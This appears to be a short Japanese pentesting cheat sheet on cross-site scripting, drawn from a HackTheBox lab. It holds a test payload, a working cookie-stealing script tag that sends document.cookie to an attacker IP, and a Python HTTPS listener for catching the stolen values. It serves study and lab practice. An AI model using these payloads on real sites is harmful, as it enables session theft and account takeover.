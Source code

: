 # XSS

----

## First Check
  ```html
  <script>alert('xss');</script>
  ```

  

## Upgrade-Insecure-RequestsにおけるXSS
* 被害者側のブラウザにUpgrade-Insecure-Requestsが設定されている場合、javascriptや画像要求のhttpのリクエストがhttpsのリクエストに変換される
* したがって、XSSのペイロードが不正なhttpサイトへ誘導していても、被害者からはhttpsリクエストが発行されることがありうる
* なお、httpsサーバのセットアップはsimple http serverを利用すると簡単

* Htb: EarlyAccess

  ```html
  <script>var i=new Image;i.src="http://10.10.14.234/?"+document.cookie</script>
  ```

* simple http server

  ```python
  from http.server import HTTPServer, SimpleHTTPRequestHandler
  import ssl, os
  os.system("openssl req -nodes -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -subj '/CN=mylocalhost'")
  port = 443
  httpd = HTTPServer(('0.0.0.0', port), SimpleHTTPRequestHandler)
  httpd.socket = ssl.wrap_socket(httpd.socket, keyfile='key.pem', certfile="cert.pem", server_side=True)
  print(f"Server running on https://0.0.0.0:{port}")
  httpd.serve_forever()
  ```

  

